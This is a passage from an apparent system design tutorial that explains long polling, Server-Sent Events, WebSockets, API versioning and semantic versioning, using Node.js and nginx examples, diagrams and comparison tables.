      } else if (res.status !== 204) {  // 204 = timeout with no news: ask again right away
        await sleep(2000);              // server error: back off a little
      }
    } catch (err) {
      await sleep(2000);                // network down: don't hammer the server
    }
  }
}
listen();
```

The server side (Node.js + Express), simplified:

```js
const waiting = new Set();                         // requests currently parked

app.get("/api/messages", (req, res) => {
  const since = Number(req.query.since || 0);
  const fresh = messages.filter((m) => m.id > since);
  if (fresh.length) return res.json({ messages: fresh, nextCursor: fresh.at(-1).id });

  const client = { res };
  client.timer = setTimeout(() => {               // nothing new: answer "no news" after 25 s
    waiting.delete(client);
    res.status(204).end();
  }, 25000);
  waiting.add(client);
  req.on("close", () => { clearTimeout(client.timer); waiting.delete(client); });
});

function publish(msg) {                            // call this when a new message is created
  messages.push(msg);
  for (const c of waiting) {                       // wake up everyone who is waiting
    clearTimeout(c.timer);
    c.res.json({ messages: [msg], nextCursor: msg.id });
  }
  waiting.clear();
}
```

**🌍 Real-world usage:**
- **Facebook Chat**, when it launched in 2008, delivered messages to browsers using long polling (a technique then often called "Comet").
- The **Telegram Bot API** offers `getUpdates` with a `timeout` parameter — long polling — as an alternative to webhooks, which is handy for bots that can't expose a public URL.
- **Dropbox's API** has a `list_folder/longpoll` endpoint that waits until files in a folder change.
- **Amazon SQS** supports "long polling" for queues (`WaitTimeSeconds` up to 20 seconds) to cut down on empty receives.
- **Socket.IO** starts connections with HTTP long polling, then upgrades to WebSocket if possible — and keeps using long polling if WebSockets are blocked.

**⚖️ Trade-offs:**

| Pros | Cons |
|---|---|
| Works everywhere plain HTTP works (old browsers, strict proxies, corporate firewalls) | Every message costs a full HTTP request + response with headers |
| Near-instant delivery, far fewer empty responses than short polling | Server must hold many open requests (needs async servers) |
| Simple to understand and debug | Tricky to get ordering and "no gaps" right without a cursor |
| No special protocol or load balancer support needed | Not great for high-frequency, two-way traffic (use WebSockets) |

**When is it still useful?** As a **fallback** when WebSockets are blocked by a corporate proxy or firewall, for clients that can't receive webhooks (bots behind home routers), for queue consumers (SQS), and for low-traffic features where adding WebSocket infrastructure isn't worth it.

**⚠️ Common mistakes:**
- **Hold time longer than the proxy/load balancer idle timeout.** The proxy kills the request and returns an error (often `504`). Keep it comfortably shorter, such as 20-30 seconds.
- **No cursor.** Messages that arrive between one response and the next request get lost.
- **Using a thread-per-request server.** A few thousand waiting clients exhaust all threads, and the whole site stalls.
- **Retrying instantly on errors.** After a server restart, every client hammers it at once (a "thundering herd"). Add a delay with some randomness.
- **Not cleaning up when the client disconnects**, which leaks memory on the server.

**🎯 Remember:** Long polling = "hold the request until there's news, then ask again." It's simple HTTP and a reliable fallback, but SSE or WebSockets are more efficient for heavy real-time traffic.

**🔗 See also:** [#19 Webhooks](#19-webhooks), [#21 Server-Sent Events](#21-server-sent-events), [#22 WebSockets, Load Balancing, Message Queues](#22-websockets)

---


### 21. Server-Sent Events

> **In one line:** Server-Sent Events (SSE) let a server keep one HTTP response open and push a stream of text messages to the browser whenever it wants.

**🏠 Real-life analogy:** SSE is like tuning in to a radio station. You tune in once, and the station keeps broadcasting news to you whenever there is something to say. You can't talk back through the radio — if you want to say something, you pick up the phone (a normal HTTP request). If the signal drops, your radio automatically re-tunes, and a good station says "here's what you missed."

**❓ What problem does it solve?** Many features only need updates flowing **from server to browser**: live sports scores, stock prices, notifications, a progress bar for a long job, or an AI chatbot "typing" its answer word by word.
- **Polling** wastes requests and adds delay.
- **WebSockets** (#22) work, but they are a different protocol, need special proxy/load balancer setup, and you must write reconnection logic yourself — overkill if the client rarely sends anything.
- **SSE** uses **plain HTTP**, works with normal servers, proxies, and HTTP/2, and the browser **reconnects automatically**.

**⚙️ How it works:**
1. The browser runs `new EventSource("/stream")`, which sends a normal `GET` request with `Accept: text/event-stream`.
2. The server replies `200 OK` with `Content-Type: text/event-stream` and **never finishes the response**. The connection stays open.
3. Whenever it wants, the server writes an **event** as lines of text:
   - `data:` the message (several `data:` lines are joined with newlines),
   - `event:` an optional event name (like `score`),
   - `id:` an optional ID so the browser can resume,
   - `retry:` how many milliseconds to wait before reconnecting.
   - A **blank line** ends the event. Lines starting with `:` are comments, often used as "keep-alive" pings so proxies don't close an idle connection.
4. The browser fires a JavaScript event for each message.
5. If the connection drops, the browser **reconnects automatically** and sends a `Last-Event-ID` header with the last `id` it received. The server can then replay what the client missed.
6. It is **one-way**: if the client needs to send something, it uses a normal `fetch`/`POST`.
7. Limits: text only (UTF-8, so binary data must be encoded); over HTTP/1.1, browsers allow only about 6 connections per domain shared across all tabs (HTTP/2 removes this problem by multiplexing); and the `EventSource` API can't set custom headers like `Authorization` (use cookies, or `fetch` streaming instead).

```mermaid
sequenceDiagram
    participant B as Browser
    participant S as Server
    B->>S: GET /stream with Accept text/event-stream
    S-->>B: 200 OK, Content-Type text/event-stream, connection stays open
    S-->>B: id 101, event score, data runs 245
    S-->>B: id 102, event score, data runs 249
    Note over B,S: Wi-Fi drops, connection is lost
    B->>S: GET /stream with header Last-Event-ID 102
    S-->>B: id 103, the event the browser missed
    S-->>B: comment ping every 15 seconds keeps proxies happy
```

**💻 Example:**
What the raw stream looks like on the wire (each event ends with an empty line):

```text
: this is a comment, often sent every 15 seconds as a keep-alive

retry: 5000

id: 101
event: score
data: {"match":"IND-AUS","runs":245,"wickets":3}

id: 102
data: A message without an event name
data: can span several data lines

```

A Node.js + Express server that broadcasts scores and lets reconnecting clients catch up:

```js
const express = require("express");
const app = express();
const clients = new Set();
const history = [];          // recent events, so reconnecting clients can catch up
let nextId = 1;

app.get("/stream", (req, res) => {
  res.set({ "Content-Type": "text/event-stream", "Cache-Control": "no-cache",
            "X-Accel-Buffering": "no" });            // tell nginx not to buffer the stream
  res.flushHeaders();

  const lastId = Number(req.get("Last-Event-ID") || 0); // sent automatically on reconnect
  history.filter((e) => e.id > lastId).forEach((e) => send(res, e));

  clients.add(res);
  const ping = setInterval(() => res.write(": ping\n\n"), 15000); // keep-alive comment
  req.on("close", () => { clearInterval(ping); clients.delete(res); });
});

function send(res, e) {
  res.write(`id: ${e.id}\nevent: ${e.type}\ndata: ${JSON.stringify(e.data)}\n\n`);
}

function broadcast(type, data) {
  const e = { id: nextId++, type, data };
  history.push(e);
  if (history.length > 100) history.shift();
  clients.forEach((res) => send(res, e));
}

setInterval(() => broadcast("score", { runs: Math.floor(Math.random() * 300) }), 3000);
app.listen(3000);
```

The browser side is just a few lines:

```js
const es = new EventSource("/stream");               // reconnects by itself
es.addEventListener("score", (e) => {                 // named events ('event: score')
  document.querySelector("#score").textContent = JSON.parse(e.data).runs;
});
es.onmessage = (e) => console.log("unnamed event:", e.data);
es.onerror = () => console.log("connection lost - the browser will retry");
```

**🌍 Real-world usage:**
- **AI chatbots:** the **OpenAI API** streams answers token by token as server-sent events when you pass `stream: true` (ending with `data: [DONE]`), and the **Anthropic API** also streams responses as SSE with named events. Because `EventSource` only supports `GET`, chat web apps typically `POST` the prompt with `fetch()` and read the `text/event-stream` body piece by piece.
- **Live scores, news tickers, and stock prices** that many people watch but rarely interact with.
- **Notifications and dashboards**, such as "your report is ready", live CI build logs, and deployment progress bars.
- Server support is easy almost everywhere: Express, FastAPI/Starlette (`StreamingResponse`), Spring (`SseEmitter`), Go `net/http` with flushing.

**⚖️ Trade-offs:**

| Pros | Cons |
|---|---|
| Plain HTTP: works with existing servers, proxies, auth cookies, HTTP/2 | One-way only (server to client) |
| Automatic reconnect and resume with `Last-Event-ID` built into browsers | Text only, no binary frames |
| Very simple text format, easy to debug with `curl -N` | About 6 connections per domain limit on HTTP/1.1 |
| Lighter than WebSockets for "push only" features | `EventSource` can't send custom headers or a `POST` body |
| Easy to scale behind normal HTTP load balancers | Still a long-lived connection per user (memory, file handles) |

**⚠️ Common mistakes:**
- **Proxy or compression buffering.** nginx buffers responses by default, so events arrive in big delayed chunks. Turn off `proxy_buffering` (or send `X-Accel-Buffering: no`), and keep gzip middleware away from the stream.
- **Forgetting the blank line** after each event, so the browser never delivers it.
- **Not sending `id:` values**, so reconnecting clients silently miss events.
- **Opening many SSE streams over HTTP/1.1** (one per tab or widget). New tabs then hang. Use HTTP/2 or share a single stream.
- **Using SSE for chatty two-way traffic** like games or collaborative editing — that's what WebSockets are for.

**🎯 Remember:** SSE = "a never-ending HTTP response of `data:` lines." It's the simplest way to push server→client updates, and it's how most AI chat apps stream their answers.

**🔗 See also:** [#20 Long Polling](#20-long-polling), [#22 WebSockets](#22-websockets), [#19 Webhooks, Load Balancing](#19-webhooks)

---

### 22. WebSockets

> **In one line:** A WebSocket is a permanent two-way "phone line" between a browser and a server where either side can talk at any moment.

**🏠 Real-life analogy:** Normal HTTP is like sending letters: you write one, post it, and wait for one reply. Every letter needs a fresh envelope and address (headers). A WebSocket is a **phone call**: you dial once (the handshake), and then both people can speak and listen at the same time, with no envelopes, until somebody hangs up.

**❓ What problem does it solve?** Chat apps, multiplayer games, collaborative editors (two people typing in one document), and trading screens need **fast updates in both directions**, many times per second.
- Polling adds delay and sends full HTTP headers (often hundreds of bytes or more) with every request.
- SSE only goes server→client.
- With WebSockets, after a one-time handshake, each message is a small **frame** with only 2-14 bytes of protocol overhead, flowing either way instantly. This is called **full-duplex**: both directions at the same time on one connection.

**⚙️ How it works:**
1. **It starts as HTTP.** The client sends a normal `GET` with `Upgrade: websocket`, `Connection: Upgrade`, a random `Sec-WebSocket-Key`, and `Sec-WebSocket-Version: 13`.
2. **The server agrees** with `HTTP/1.1 101 Switching Protocols` and a `Sec-WebSocket-Accept` value (a hash of the client's key — proof that it really speaks WebSocket).
3. **The same TCP connection now carries WebSocket frames** instead of HTTP: text frames, binary frames, and control frames (`ping`, `pong`, `close`). It's defined in RFC 6455 (2011).
4. **URLs** use `ws://` (unencrypted) or `wss://` (encrypted with TLS, like HTTPS). Always use `wss://` in production.
5. **Heartbeats (ping/pong).** One side sends a `ping` and the other must answer `pong`. This detects "zombie" connections (a phone that went into a tunnel never says goodbye) and keeps routers and load balancers from closing idle connections. Browsers answer server pings automatically, so many apps also send a small app-level `{"type":"ping"}` message from the client.
6. **Closing.** Either side sends a `close` frame with a code (`1000` = normal, `1001` = going away).
7. **Reconnection is your job.** Unlike SSE, the browser does **not** reconnect automatically. The client must retry with **exponential backoff** (wait 1 s, 2 s, 4 s...) plus **jitter** (randomness), then re-sync anything it missed.

```mermaid
sequenceDiagram
    participant B as Browser
    participant S as Server
    B->>S: GET /chat HTTP/1.1 with Upgrade websocket and Sec-WebSocket-Key
    S-->>B: HTTP/1.1 101 Switching Protocols with Sec-WebSocket-Accept
    Note over B,S: Same TCP connection now speaks WebSocket frames
    B->>S: text frame - hello everyone
    S-->>B: text frame - Asha is typing
    S-->>B: text frame - new message from Asha
    S->>B: ping
    B-->>S: pong
    B->>S: close frame 1000
    S-->>B: close frame 1000
```

The handshake on the wire (example values from RFC 6455):

```http
GET /chat HTTP/1.1
Host: server.example.com
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
Sec-WebSocket-Version: 13

HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: s3pPLMBiTxaQ9kYGzzhZRbK+xOo=
```

**Scaling challenges** (this is where interviews focus):
- **Stateful, long-lived connections.** Each server holds thousands of open sockets in memory. You can't treat requests as independent anymore. A deploy or crash drops every connection on that server, and all those clients reconnect at once (a **reconnect storm**) — jitter on the client spreads them out.
- **Load balancer support.** The LB must understand the `Upgrade` handshake and allow long idle times. AWS ALB supports WebSockets. nginx needs explicit config (below). New connections should go to the least-loaded server, since connections stick around for hours.
- **Fan-out across servers.** User A is connected to server 1, but users B and C are on server 2. When A sends a message to the room, server 1 alone can't reach B and C. The fix is a **pub/sub backbone** (publish/subscribe: senders publish to a channel, and every subscriber gets a copy) such as **Redis Pub/Sub**, NATS, or Kafka. Every server publishes incoming messages and subscribes to deliver them to its own local sockets.
- **Limits per machine.** Each connection uses a file descriptor and some memory, so raise OS limits (`ulimit -n`) and watch memory.
- **Authentication.** The browser `WebSocket` API can't set custom headers. Use a cookie, or a short-lived token in the URL or in the first message, and check the `Origin` header.

```mermaid
flowchart LR
    UserA["User A"] -->|"wss"| LB["Load Balancer"]
    UserB["User B"] -->|"wss"| LB
    UserC["User C"] -->|"wss"| LB
    LB --> WS1["WS Server 1<br/>holds A"]
    LB --> WS2["WS Server 2<br/>holds B and C"]
    WS1 -->|"publish to room 42"| Redis[("Redis Pub/Sub")]
    Redis -->|"copy to every subscriber"| WS1
    Redis -->|"copy to every subscriber"| WS2
    WS2 -.->|"push frame to B and C"| UserB
```

**💻 Example:**
A Node.js server using the popular `ws` library, with broadcasting and ping/pong heartbeats:

```js
// npm install ws
const { WebSocketServer, WebSocket } = require("ws");
const wss = new WebSocketServer({ port: 8080 });

wss.on("connection", (socket) => {
  socket.isAlive = true;
  socket.on("pong", () => (socket.isAlive = true));     // client answered our ping

  socket.on("message", (data) => {
    // In real code: validate input and check the user is allowed in this room
    for (const client of wss.clients) {                   // broadcast to everyone on THIS server
      if (client.readyState === WebSocket.OPEN) client.send(data.toString());
    }
  });
  socket.send(JSON.stringify({ type: "welcome" }));
});

// Heartbeat: every 30 s ping everyone, and drop sockets that didn't pong last time
const timer = setInterval(() => {
  for (const socket of wss.clients) {
    if (!socket.isAlive) { socket.terminate(); continue; }
    socket.isAlive = false;
    socket.ping();
  }
}, 30000);
wss.on("close", () => clearInterval(timer));
```

To fan out across many servers, publish to Redis instead of only looping over local clients:

```js
const Redis = require("ioredis");
const pub = new Redis(), sub = new Redis();             // subscriber needs its own connection
sub.subscribe("room:42");
sub.on("message", (channel, text) => {                  // a message from ANY server
  for (const c of wss.clients) if (c.readyState === WebSocket.OPEN) c.send(text);
});
// inside socket.on("message"): pub.publish("room:42", data.toString());
```

A browser client that reconnects with exponential backoff and jitter:

```js
let attempt = 0;
function connect() {
  const ws = new WebSocket("wss://chat.example.com/ws");
  ws.onopen = () => {
    attempt = 0;                                             // reset after success
    ws.send(JSON.stringify({ type: "chat", text: "hi!" }));
  };
  ws.onmessage = (e) => render(JSON.parse(e.data));
  ws.onclose = () => {
    // ~1s, 2s, 4s ... capped at 30s, randomised so clients don't all retry together
    const delay = Math.min(30000, 1000 * 2 ** attempt) * (0.5 + Math.random() / 2);
    attempt++;
    setTimeout(connect, delay);
  };
}
connect();
```

And the nginx settings needed to proxy WebSockets:

```nginx
location /ws {
    proxy_pass http://ws_backend;
    proxy_http_version 1.1;                    # the Upgrade mechanism needs HTTP/1.1
    proxy_set_header Upgrade $http_upgrade;    # pass the client's Upgrade header through
    proxy_set_header Connection "upgrade";
    proxy_read_timeout 3600s;                  # default is 60s, which would cut idle sockets
}
```

**🌍 Real-world usage:**
- **Chat:** **Slack** clients receive messages in real time over WebSockets, through gateway servers that hold the connections. **Discord's** "Gateway" is a WebSocket API that bots and clients connect to.
- **Collaborative editing:** **Figma's** multiplayer editing sends changes between clients and servers over WebSockets.
- **Trading dashboards:** crypto exchanges such as **Coinbase** and **Binance** publish live market-data feeds over WebSockets.
- **Browser multiplayer games** use WebSockets. Many native games use UDP-based protocols instead, for even lower latency.
- **Tools:** `ws` and **Socket.IO** (Node), SignalR (.NET), Phoenix Channels (Elixir), and managed services like AWS API Gateway WebSocket APIs, Pusher, and Ably.

**⚖️ Trade-offs:**

| Pros | Cons |
|---|---|
| True two-way, lowest-latency messaging in the browser | Stateful connections make scaling and deploys harder |
| Tiny per-message overhead after the handshake | Needs LB/proxy support and long timeouts |
| Text and binary frames | No automatic reconnect, resume, or delivery guarantees — you build them |
| Supported by all modern browsers | Can be blocked by some corporate proxies (fallback: long polling) |
| One connection for many kinds of messages | Harder to cache, debug, and observe than plain HTTP |

**Big comparison — which real-time technique should I use?**

| Technique | Direction | Protocol / transport | Connection | Delay | Typical use case |
|---|---|---|---|---|---|
| Short polling | Client pulls | New HTTP request every N seconds | Short, repeated | Up to N seconds | Rarely-changing data, checking a job's status |
| Long polling | Client pulls, server answers when ready | HTTP request held open until data or timeout | One parked request at a time, reopened after each answer | Near real-time | Fallback when WebSockets are blocked, bots, SQS consumers |
| Server-Sent Events | Server → client | One long HTTP response, `text/event-stream` | Long-lived, auto-reconnect | Real-time | Live scores, notifications, streaming AI chatbot tokens |
| WebSockets | Both ways (full-duplex) | HTTP `Upgrade` then `ws://`/`wss://` frames over TCP | Long-lived | Real-time, lowest | Chat, multiplayer games, collaborative editing, trading |
| Webhooks | Server → server (provider calls you) | HTTP `POST` to your public URL, one per event | Short, one per event | Seconds | Payment events, Git pushes, SaaS integrations |

**⚠️ Common mistakes:**
- **No heartbeats.** Dead "zombie" connections pile up, leak memory, and users think they're online when they aren't.
- **Broadcasting only to the local server's clients** when you run several servers. Users on other servers silently miss messages. Add pub/sub.
- **No reconnect logic, or reconnecting without jitter.** After every deploy, thousands of clients hit the servers at the same instant.
- **Using `ws://` and not checking the `Origin` header.** Traffic can be read in transit, and other websites can open sockets using your users' cookies (Cross-Site WebSocket Hijacking).
- **Choosing WebSockets when SSE or polling is enough.** You pay the stateful-scaling cost for nothing.

**🎯 Remember:** WebSockets = HTTP handshake → `101 Switching Protocols` → a full-duplex pipe. Plan for heartbeats, reconnects with jitter, and cross-server fan-out (Redis pub/sub) from day one.

**🔗 See also:** [#20 Long Polling](#20-long-polling), [#21 Server-Sent Events](#21-server-sent-events), [#19 Webhooks](#19-webhooks), [#18 gRPC, Load Balancing, Message Queues](#18-grpc)

---


### 23. API Versioning

> **In one line:** API versioning lets you improve your API without breaking the apps that already depend on how it works today.

**🏠 Real-life analogy:** A restaurant has regulars who always order "number 7" by number. One day the owner reshuffles the menu, and number 7 is now a different dish — the regulars get a nasty surprise. A smarter owner keeps the old menu available for regulars, prints a new menu for new customers, and puts up a sign months in advance: "The old menu retires on December 31." That's API versioning plus a deprecation process.

**❓ What problem does it solve?** Once other people's code calls your API, you no longer fully control it.
- **Mobile apps** stay installed on phones for years. Many users never update, so you can't force all clients to change on the same day.
- **Partner integrations** (another company's billing system calling yours) may not be touched for months.
- If you rename `name` to `full_name`, every old client that reads `name` gets nothing — and may crash.
- Without versioning, you either **never improve** the API or you **break customers**. Versioning lets old and new clients coexist.

**⚙️ How it works:**
1. **Know what counts as "breaking"** — a change that can make an existing, correct client fail:

| Change | Breaking? | Why |
|---|---|---|
| Add a new endpoint | No | Old clients don't call it |
| Add a new optional field to a response | No* | *As long as clients ignore fields they don't know |
| Add an optional request parameter with a sensible default | No | Old requests behave the same |
| Remove or rename a field or endpoint | **Yes** | Old clients read or send something that's gone |
| Change a field's type (`"price": "9.99"` → `9.99`) | **Yes** | Old parsing code fails |
| Make an optional request field required | **Yes** | Old requests are now rejected |
| Change meaning or units (cents → dollars) | **Yes** | The worst kind: nothing crashes, the numbers are just wrong |
| Add a new value to an enum (like a new `status`) | Often yes | Strict clients with a `switch` statement may crash |
| Change status codes, error formats, default sorting or page size | Usually yes | Clients often depend on these details |

2. **Prefer additive changes.** Add new fields and endpoints instead of changing old ones. Clients should be **tolerant readers**: ignore unknown fields and handle unknown enum values gracefully.
3. **When a breaking change is unavoidable, create a new version** and run the old and new versions side by side for a while.
4. **Choose how clients pick a version:**

| Strategy | Example | Pros | Cons | Who uses it |
|---|---|---|---|---|
| URI path | `GET /v1/users/42` | Obvious, easy to route, cache, and test in a browser | Coarse: the whole API gets a new number, and URLs change | Google APIs (`/v1/`), X/Twitter API (`/2/`), Stripe (`/v1/`) |
| Custom header | `X-GitHub-Api-Version: 2022-11-28` | Clean URLs, fine-grained control | Invisible in the URL, harder to test, caches must vary on the header | GitHub, Stripe (`Stripe-Version`) |
| Query parameter | `GET /users/42?api-version=2024-01-01` | Easy to add and see | Easy to forget, mixed in with filters | Microsoft Azure REST APIs |
| Media type (content negotiation) | `Accept: application/vnd.github.v3+json` | Versions each resource's format, considered "most RESTful" | Complex, unfamiliar to many developers | GitHub's older REST API |

5. **Stripe's date-based versions.** Stripe keeps `/v1/` in the URL but versions behavior by **date** (for example `2024-06-20`). When your account makes its first API call, it is **pinned** to the current version, so Stripe's later breaking changes don't affect you. You can test a newer version on a single request by sending the `Stripe-Version` header, then upgrade your account when ready. Internally (as Stripe's engineering blog describes), the core code only knows the newest format, and small **"version change" modules** transform responses backwards, step by step, into whatever older shape a given account expects.
6. **Deprecate politely, then remove:**
   - Announce it in the changelog, docs, and by email to the developers using it.
   - Add response headers: `Deprecation` (RFC 9745) says *since when* it is deprecated, `Sunset` (RFC 8594) says *when it will stop working*, and a `Link` header points to the migration guide.
   - **Measure usage per version** (which API keys still call v1?) and contact the heavy users.
   - Some companies, including GitHub, run short planned **"brownouts"** — temporarily switching the old behavior off for minutes or hours — so forgotten integrations show up before the final date.
   - After the sunset date, turn it off and return `410 Gone` with a helpful message.

```mermaid
flowchart LR
    OldApp["Old mobile app"] -->|"GET /v1/users/42"| GW["API Gateway"]
    NewApp["New web app"] -->|"GET /v2/users/42"| GW
    GW --> V1["v1 adapter<br/>returns name"]
    GW --> V2["v2 handler<br/>returns first_name and last_name"]
    V1 --> Core["Shared core logic<br/>(latest model)"]
    V2 --> Core
    Core --> DB[("Database")]
```

```mermaid
stateDiagram-v2
    [*] --> Active
    Active --> Deprecated : announce and add Deprecation header
    Deprecated --> Sunset : Sunset date reached
    Deprecated --> Deprecated : brownouts and emails to remaining users
    Sunset --> Removed : return 410 Gone
    Removed --> [*]
```

**💻 Example:**
Two versions served side by side in Node.js + Express. The old one advertises its retirement with standard headers:

```js
const express = require("express");
const app = express();

// v1: old shape, still works but is deprecated
app.get("/v1/users/:id", (req, res) => {
  const u = getUser(req.params.id);
  res.set("Deprecation", "@1767225599");                  // RFC 9745: deprecated since 2025-12-31 (Unix time)
  res.set("Sunset", "Thu, 31 Dec 2026 23:59:59 GMT");     // RFC 8594: stops working after this
  res.set("Link", '<https://api.example.com/docs/v2-migration>; rel="deprecation"');
  res.json({ id: u.id, name: `${u.first} ${u.last}` });   // v1 had one 'name' field
});

// v2: the breaking change - the name is split into two fields
app.get("/v2/users/:id", (req, res) => {
  const u = getUser(req.params.id);
  res.json({ id: u.id, first_name: u.first, last_name: u.last });
});

app.listen(3000);
```

Calling Stripe and GitHub with an explicit version header:

```bash
# Try a specific Stripe API version for just this one request
curl https://api.stripe.com/v1/customers -u "$STRIPE_SECRET_KEY:" -H "Stripe-Version: 2024-06-20"

# GitHub's REST API uses a date-based version header
curl https://api.github.com/repos/octocat/hello-world -H "X-GitHub-Api-Version: 2022-11-28"
```

**🌍 Real-world usage:**
- **Stripe** uses date-based versions with per-account pinning and the `Stripe-Version` header, and is often cited as the gold standard for not breaking integrations.
- **GitHub** moved its REST API to date-based versions selected with `X-GitHub-Api-Version` (the first was `2022-11-28`), after years of using media types like `application/vnd.github.v3+json`.
- **Google Cloud** APIs put the major version in the path (`/v1/`, `/v1beta1/`) and publish rules for what counts as a breaking change.
- **Microsoft Azure** REST APIs require an `api-version` query parameter on every call.
- **GraphQL** APIs usually avoid versions entirely: they only add fields and mark old ones with the `@deprecated` directive. **gRPC** puts the version in the protobuf package name (like `ride.v1`, see #18).

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Additive changes only, no new version | Most changes, most of the time | API slowly collects old, unused fields |
| URI path versions (`/v1`, `/v2`) | Public APIs that want simplicity | Big-bang upgrades, duplicated routes |
| Header or date-based versions | APIs with many integrators and frequent small changes (Stripe, GitHub) | More complex internally (version transforms) |
| Never version, just change things | Only for private APIs where you deploy client and server together | Breaks any client you forgot about |

**⚠️ Common mistakes:**
- **Making "small" breaking changes in place** ("it's just a rename") without a new version.
- **Supporting too many versions forever.** Each one is extra code to test, secure, and document.
- **No per-version usage metrics**, so you never know when it's safe to turn an old version off.
- **Clients that crash on unknown fields or new enum values.** Write tolerant clients, and document that new fields can appear at any time.
- **Not versioning from day one.** Adding `/v1` to a public API later is painful. Start with a version, even if it stays `v1` for years.

**🎯 Remember:** Prefer additive changes. When you must break something, ship a new version, run both, announce it with `Deprecation`/`Sunset` headers, watch usage, then retire the old one.

**🔗 See also:** [#24 Semantic Versioning](#24-semantic-versioning), [#18 gRPC](#18-grpc), [#19 Webhooks, API Gateway](#19-webhooks)

---

### 24. Semantic Versioning

> **In one line:** Semantic Versioning (SemVer) is a numbering rule — `MAJOR.MINOR.PATCH` — where each number tells you how risky an upgrade is.

**🏠 Real-life analogy:** Think of a textbook. A **corrected printing** fixes typos — your notes still match every page (PATCH). A **new edition with an extra chapter** keeps all the old chapters and page numbers the same (MINOR). A **completely rewritten edition** moves chapters around, so your notes saying "see page 42" are now wrong (MAJOR). Just by looking at what kind of release it is, you know whether you need to redo your notes.

**❓ What problem does it solve?** A modern app depends on many libraries, and those libraries depend on more libraries (**transitive dependencies**). A typical Node.js project can easily pull in hundreds of packages.
- Without shared rules, every upgrade is a gamble: does going from 2.3 to 2.4 break my code?
- This leads to **"dependency hell"**: pin everything exactly and you miss security fixes and get conflicts between libraries that need different versions; allow anything and a surprise breaking change takes down your build.
- SemVer gives version numbers a **meaning**, so tools can safely auto-accept low-risk upgrades.

**⚙️ How it works** (the rules from semver.org, version 2.0.0):
1. A version looks like `MAJOR.MINOR.PATCH`, for example `2.4.1`.
2. **MAJOR** goes up for **incompatible (breaking) changes** to the public API. MINOR and PATCH reset to 0: `2.4.1` → `3.0.0`.
3. **MINOR** goes up when you **add functionality in a backward-compatible way** (including marking something as deprecated). PATCH resets: `2.4.1` → `2.5.0`.
4. **PATCH** goes up for **backward-compatible bug fixes**: `2.4.1` → `2.4.2`.
5. **Pre-release versions** add a hyphen: `1.0.0-alpha`, `1.0.0-beta.1`, `1.0.0-rc.1`. They come *before* `1.0.0` and are not considered stable.
6. **Build metadata** adds a plus sign: `1.0.0+20261027.sha.5114f85`. It is ignored when deciding which version is newer.
7. **`0.y.z` means "initial development"**: anything may change at any time, and the API is not stable yet. Releasing `1.0.0` means "this is my public API, and I now promise to follow the rules."
8. **A released version is frozen.** If `2.4.1` has a bug, you publish `2.4.2` — you never change what `2.4.1` contains.

Which number to bump, starting from `2.4.1`:

| Change in the library | New version |
|---|---|
| Fix a bug where `formatDate()` used the wrong time zone | `2.4.2` |
| Patch a security hole without changing any function signatures | `2.4.2` |
| Add a new function `formatRelative()` | `2.5.0` |
| Add an optional parameter with a default value | `2.5.0` |
| Mark `oldFormat()` as deprecated (it still works) | `2.5.0` |
| Remove the deprecated `oldFormat()` | `3.0.0` |
| Rename a function or change what it returns | `3.0.0` |
| Drop support for an old Node.js/Python version | `3.0.0` (commonly treated as breaking) |
| First public beta of version 3 | `3.0.0-beta.1` |

```mermaid
flowchart TD
    Start["You changed the library"] --> Q1{"Can existing users' code break?"}
    Q1 -->|"yes"| Major["Bump MAJOR<br/>2.4.1 to 3.0.0"]
    Q1 -->|"no"| Q2{"Did you add new features?"}
    Q2 -->|"yes"| Minor["Bump MINOR<br/>2.4.1 to 2.5.0"]
    Q2 -->|"no, only fixes"| Patch["Bump PATCH<br/>2.4.1 to 2.4.2"]
```

Version order (precedence), oldest to newest:

```mermaid
flowchart LR
    V1["1.0.0-alpha"] --> V2["1.0.0-alpha.1"] --> V3["1.0.0-beta"] --> V4["1.0.0-beta.2"] --> V5["1.0.0-beta.11"] --> V6["1.0.0-rc.1"] --> V7["1.0.0"] --> V8["1.0.1"] --> V9["1.1.0"] --> V10["2.0.0"]
```

(Note `beta.2` comes before `beta.11`: number parts are compared as numbers, not as text.)

**npm version ranges** — what you write in `package.json` controls which versions you'll accept:

| Range | Means | Allows | Blocks |
|---|---|---|---|
| `1.2.3` | Exactly this version | `1.2.3` only | Everything else |
| `~1.2.3` | Patch updates only | `>=1.2.3 <1.3.0` (e.g. `1.2.9`) | `1.3.0` |
| `^1.2.3` | Compatible updates (npm's default) | `>=1.2.3 <2.0.0` (e.g. `1.9.0`) | `2.0.0` |
| `^0.2.3` | Special case for 0.x: minor counts as breaking | `>=0.2.3 <0.3.0` | `0.3.0` |
| `^0.0.3` | Special case for 0.0.x | `>=0.0.3 <0.0.4` | `0.0.4` |
| `>=1.2.3 <2.0.0` | Explicit range | Anything in between | Outside the range |
| `*` or `latest` | Anything at all | Every version, including breaking ones | Nothing (dangerous) |

**Lockfiles** fix the remaining risk. A range like `^4.19.2` could resolve to different versions on different days. A **lockfile** (`package-lock.json`, `yarn.lock`, `pnpm-lock.yaml`, `poetry.lock`, `Cargo.lock`, `Gemfile.lock`) records the **exact** version (and a checksum) of every package, including transitive ones. Commit it, so your laptop, CI, and production all install the identical set. Upgrades then happen on purpose, through `npm update` or bots like Dependabot and Renovate that open pull requests and run your tests.

**💻 Example:**

```json
{
  "name": "shop-api",
  "version": "2.4.1",
  "dependencies": {
    "express": "^4.19.2",
    "lodash": "~4.17.21",
    "stripe": "16.2.0"
  }
}
```

Here `express` may update to any `4.x` at or above `4.19.2`, `lodash` only to `4.17.x` patches, and `stripe` is pinned exactly. Useful commands:

```bash
npm install express@^4.19.2   # adds "express": "^4.19.2" to package.json
npm outdated                  # shows current, wanted (in range) and latest versions
npm update                    # upgrades within your ranges and updates package-lock.json
npm ci                        # CI/production: install EXACTLY what package-lock.json says
npm version minor             # bump YOUR package 2.4.1 -> 2.5.0 and create a git tag
npm publish --tag beta        # publish a pre-release like 3.0.0-beta.1 without making it 'latest'
```

**🌍 Real-world usage:**
- **npm, Cargo (Rust), Composer (PHP), and Bundler (Ruby)** all build their version ranges on SemVer ideas. Python uses its own spec (PEP 440) with a similar "compatible release" operator: `requests~=2.31` means `>=2.31, ==2.*`.
- **Go modules** require SemVer tags (`v1.2.3`), and from `v2` onward the major version becomes part of the import path (`example.com/lib/v2`), so v1 and v2 can be used side by side.
